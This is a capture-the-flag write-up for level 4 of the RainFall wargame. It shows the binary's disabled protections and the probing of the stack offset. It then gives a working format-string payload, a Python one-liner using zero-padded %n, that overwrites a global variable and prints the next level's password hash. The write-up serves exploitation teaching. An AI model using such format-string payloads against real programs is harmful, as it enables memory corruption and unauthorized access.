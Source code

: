 # Level 4

Once logged in, you will see a binary `level4`.

```
$ ssh level4@localhost -p 4242
          _____       _       ______    _ _
         |  __ \     (_)     |  ____|  | | |
         | |__) |__ _ _ _ __ | |__ __ _| | |
         |  _  /  _` | | '_ \|  __/ _` | | |
         | | \ \ (_| | | | | | | | (_| | | |
         |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
level4@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4
```

Let's run this and see what this does

```
level4@RainFall:~$ ./level4
aaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaa
level4@RainFall:~$
```

Oh wow, it does the same thing as level 3... Wait, really? It can't be this easy, right? _\<Goes and decompiles manually into C.\>_

Level 4 is indeed very similar to level 3, just with a much larger number of characters to print. Let's modify our exploit from level 3 with the new information from the decompiled program.

Let's find the offset.

```
level4@RainFall:~$ echo "BBBB %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x" | ./level4
BBBB b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078 20782520
```

Changes from level 3:
- The offset is now 12 in this program
- `m` is now at `0x8049810` (as seen on `<n+54>`)
- We'll need to print `16930116` (`0x1025544`) characters before the `%n`. Instead of using Python to print these (which would be relatively slow), we'll use the zero padding (`%0`) functionality of `printf`. `%016930112x` prints the stack where the first argument to `printf` would be (if there was one), zero-padded to be a total of `16930112` characters (`16930116 - 4`).

```
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%016930112x%12$n"' | ./level4
[...]000000000000000000000000000000000000000000000000000000000000000000000000000000000000000b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
level4@RainFall:~$
```
